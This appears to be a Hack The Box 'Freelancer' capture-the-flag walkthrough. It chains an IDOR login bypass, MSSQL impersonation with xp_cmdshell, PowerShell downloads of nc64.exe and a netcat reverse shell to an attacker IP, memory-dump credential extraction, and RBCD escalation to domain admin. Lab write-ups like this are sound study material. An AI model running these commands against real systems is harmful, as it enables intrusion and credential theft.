

---
---

# HTB - Freelancer

NMAP


Add freelancer.htb to /etc/hosts

- Ran dirsearch:

`dirsearch -u http://freelancer.htb /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt`


- Got admin login page:


**<u>Website Part 1 - UUID</u>**

- Register a normal account

- If we look at the blog posts - we see a user Maya making a comment:


- On her page - we can see some of her info
- But the URL is more interesting:

`http://freelancer.htb/accounts/profile/visit/9/`

- If we change the 9 to a 0 or 1, nothing happens, but if we change it to 2:

`http://freelancer.htb/accounts/profile/visit/2/`

- We get an admin:


**<u>Website Part 2 - IDOR</u>**

- Register an employer account
- When you try and login - it will say "Diabled or not authenticated"
- Click on Forgot Password
- Enter the employer details and set a new password
- Login as employer




- One thing that stands out is the QR code:


- Download the QR image and import into CyberChef:


- We get the output:

`http://freelancer.htb/accounts/login/otp/MTAwMTE=/df3bd010f3bbe9bf29bc988924321026/`


- If we go back to the page where we found the admin:

`http://freelancer.htb/accounts/profile/visit/2/`

And change 2 for 10011:


- We see the account we made

So this gives a clue that it could be an IDOR vulnerability

<https://medium.com/pentesternepal/tackling-idor-on-uuid-based-objects-71e8cb2dc265>

- If we Base64 the number "2":


- Using the QR code link - replace the base64 code:

`http://freelancer.htb/accounts/login/otp/Mgo=/df3bd010f3bbe9bf29bc988924321026/`

- Go to the link - we have admin for the site:


- Not much here - but if we go to the admin login site:

`http://freelancer.htb/admin/`

- We are logged in:


- On the admin page we get a SQL terminal:


We can see from the select @@version;

That this is a MSSQL database


**<u>Getting shell:</u>**

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server>

**SQL Server has a special permission, named <u>IMPERSONATE</u>, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.**

- First we can try and impersonate the "sa" user (sysadmin):


- Success, so we might now be able to execute commands

- To make sure we can execute commands we run the following:
This turns on advanced options which is needed to configure xp_cmdshell.

We then enable xp_cmdshell


- Now we can get a shell:
Run python server on Kali

Upload nc64.exe to the target server and execute


```bash
EXECUTE AS LOGIN = 'sa';

SELECT SYSTEM_USER;

SELECT IS_SRVROLEMEMBER('sysadmin');

EXEC sp_configure 'Show Advanced Options', 1;

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXEC xp_cmdshell 'powershell -command "(New-Object System.Net.WebClient).DownloadFile(''http://10.10.14.24/nc64.exe'', ''%TEMP%\nc.exe'')"';
```

**or use: (not both - they do the same thing)**

```bash
EXEC xp_cmdshell 'echo IWR http://10.10.14.24/nc64.exe -OutFile %TEMP%\nc.exe \| powershell -noprofile';

EXEC xp_cmdshell '%TEMP%\nc.exe 10.10.14.24 8888 -e powershell';
```


- In the current session as sql_svc - go to Downloads
- In here we see a SQL folder and inside it, a conf file:


- We get passwords:
SQLSVCPASSWORD="IL0v3ErenY3ager"

SAPWD="t3mp0r@ryS@PWD"

- Password spray users with the passwords:


```bash
crackmapexec smb 10.129.230.52 -u names.txt -p pass.txt -d freelancer

```


**mikasaAckerman** : **IL0v3ErenY3ager**

- Upload RunasCs.exe and nc64.exe to /temp:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24/RunasCs.exe', 'C:\temp\RunasCs.exe')

(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc64.exe', 'C:\temp\nc.exe')

```
- Run as different user:

```bash
./RunasCs.exe mikasaAckerman IL0v3ErenY3ager "./nc.exe -e powershell 10.10.14.24 8889"

```


```bash
cat user.txt

```
- We get these files on mikasa's Desktop:


- The mail.txt suggests a memory dump:


- **<u>Copy MEMORY.7z to Kali:</u>**


- If we extract it, we get MEMORY.DMP:


- **<u>Analyze the memory dump:</u>**
<https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary>

<https://cybercop-training.ch/?p=253>

There are different methods.

We can use **Volatility, MemProcFS, Mimikatz, WinDbg**, etc

<https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet>

- <u>OPTION 1 -</u> MemProcFS on Linux:
<https://github.com/ufrisk/MemProcFS>

- Download binary:

```bash
mkdir /mnt/test
./memprocfs -device ~/HTB/Season5/Freelancer/MEMORY.DMP -forensic 1 -mount /mnt/test -license-accept-elastic-license-2-0
```

- Use a CLI tool to perform a secret dump on some .reghive files

- **<u>OPTION 2 - MemProcFS on Windows:</u>**

- Download Donaky and install the exe:
<https://github.com/dokan-dev/dokany/releases/tag/v2.1.0.1000>
- Install Python and make sure it is in Env variables, System variables, Path
- Download Memprocfs:
<https://github.com/ufrisk/MemProcFS>
- Download the pypykatz plugin:
<https://github.com/ufrisk/MemProcFS-plugins/tree/master/files/plugins/pym_pypykatz>
- Copy the folder and put in:
MemProcFS_files_and_binaries_v5.9.17-win_x64-20240603\\**plugins**\\ folder


- Run:

```bash
.\MemProcFS.exe -device C:\Users\User\Desktop\MEMORY.DMP -forensic 1 -mount Q -license-accept-elastic-license-2-0

```


- In the mounted filesystem you should see the py folder - Go to:
Q:\py\regsecrets\all


- We get the password: **PWN3D#l0rr@Armessa199**

- <u>OPTION 3 - WinDbg + Mimikatz:</u>
  - Install with:

```bash
winget install Microsoft.WinDbg

```
- Opening a process dump:
1\. Open WinDbg (as Administrator)

2\. Click File → Open Crash Dump

3\. Navigate to the dump file and click Open

4\. Wait for WinDbg to open the dump

- Get the hashes:
<https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/>

- Download Mimikatz and load Mimilib.dll from within WinDbg:

```bash
.load \\vmware-host\Shared Folders\VM Share\mimikatz-master\mimikatz-master\x64\mimilib.dll

```

- Find the LSASS process:
```bash
!process 0 0 lsass.exe

```


- Switch to that process:

```bash
.process /r /p ffffbc83a93e7080

```


- Get dump:

```bash
!mimikatz

```


**But it didn't give me lorra199 pass**

- If you get this error:


Run:

```bash
.reload /f

```
This command forces Windbg to reload the symbols (and downloads missing ones)

- From the dumped passwords we can do a password spray:


- Put all the users in a file - users:

```bash
crackmapexec smb freelancer.htb -u users -p pass

```
**lorra199 : PWN3D#l0rr@Armessa199**

```bash
evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'

```


- Run bloodhound remotely:

```bash
bloodhound-python -c all -u lorra199 -p 'PWN3D#l0rr@Armessa199' -ns 10.129.213.81 -d freelancer.htb

```


- This group has **GenericWrite** over all Users/Computers


- **<u>RBCD:</u>**


<https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5>

- Set the date and time to DC time:

```bash
sudo date -s "2024-06-07 16:35:00" && sudo hwclock --systohc

```
- Add a new machine account to use:

```bash
impacket-addcomputer -computer-name 'rbcd-test$' -computer-pass 'Password1!' -dc-ip 10.129.213.81 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```


- Write:

```bash
impacket-rbcd -delegate-from 'rbcd-test$' -delegate-to 'DC\$' -dc-ip '10.129.213.81' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```


- Read (it shows lorra199 because I added her in a test attempt):

```bash
impacket-rbcd -delegate-to 'DC$' -dc-ip '10.129.213.81' -action 'read' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```


- Get service ticket:

```bash
impacket-getST -spn "cifs/dc.freelancer.htb" -impersonate Administrator -dc-ip 10.129.213.81 'freelancer.htb/rbcd-test:Password1!'

```


Make sure **dc.freelancer.htb is in /etc/hosts**

- Dump secrets:

```bash
impacket-secretsdump freelancer.htb/Administrator@dc.freelancer.htb -k -no-pass -just-dc-user Administrator

```


- Login with evil-winrm:

```bash
evil-winrm -i freelancer.htb -u Administrator -H 0039318f1e8274633445bce32ad1a290

```


- Using BloodyAD:
<https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad>


- Using BloodyAD - we can add RBCD for a service:

```bash
./bloodyAD.py -d freelancer.htb --host 10.129.213.81 -u lorra199 -p 'PWN3D#l0rr@Armessa199' add rbcd DC$ lorra199

```
The above command didn't work because Python url parser broke the string at the \#

- So I converted the password to an NTLM hash online and used that:

```bash
./bloodyAD.py -p ':67D4AE78A155AAB3D4AA602DA518C051' -d freelancer.htb --host 10.129.213.81 -u lorra199 add rbcd DC$ lorra199

```

